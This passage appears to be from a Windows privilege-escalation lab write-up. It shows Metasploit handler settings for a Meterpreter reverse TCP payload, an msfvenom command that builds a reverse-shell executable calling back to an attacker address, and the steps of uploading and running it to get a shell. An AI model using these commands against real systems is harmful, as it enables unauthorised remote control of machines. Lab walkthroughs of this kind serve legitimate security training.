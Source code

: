 ```
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.8.80.159      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

```


We then generate the malicious file that we use to obtain a reverse shell (**pay attention to the payloads**, it must be the same that we set in Metasploit listener otherwise we can have an unstable shell):
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.8.80.159 lport=4444 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```


Then we upload the malicious file and we execute it and, by returning to the Metasploit listener, we have the shell:

![Shell](/assets/img/posts/windows-privesc/task14_shell.png)

